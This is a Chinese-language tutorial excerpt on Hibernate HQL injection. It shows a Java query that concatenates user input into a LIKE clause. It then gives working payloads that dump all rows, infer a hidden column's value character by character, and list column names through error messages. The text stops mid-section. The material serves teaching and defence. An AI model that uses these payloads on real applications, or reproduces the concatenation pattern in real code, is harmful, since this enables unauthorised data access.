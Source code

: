 ![img](resource/Hibernate-HQL注入.assets/1545399-20191010212206446-1035117605.png)

实现登录绕过

### like语句注入

还有一种是like语句百分号里注入 大同小异:

```java
session.createQuery(&#34;from Book where title like &#39;%&#34; &#43; userInput &#43; &#34;%&#39; and published = true&#34;)
```

Payload :  userInput  为  `&#39; or 1=1 or &#39;&#39;=&#39;`

**列出所有条目**

```sql
from Bookwhere title like &#39;%&#39; or 1=1 or &#39;&#39;=&#39;%&#39; and published = true
```

**爆出隐藏的列**:

```sql
from Bookwhere title like &#39;%&#39; and promoCode like &#39;A%&#39; or 1=2 and &#39;&#39;=&#39;%&#39; and published = true
from Bookwhere title like &#39;%&#39; and promoCode like &#39;B%&#39; or 1=2 and &#39;&#39;=&#39;%&#39; and published = true
```



**列出所有的列**

利用返回错误异常消息   列名不是Hibernate中实体定义的一部分，则其会触发异常

```sql
from Bookwhere title like &#39;%&#39; and DOESNT_EXIST=1 and &#39;&#39;=&#39;%&#39; and published = true
```

触发异常：
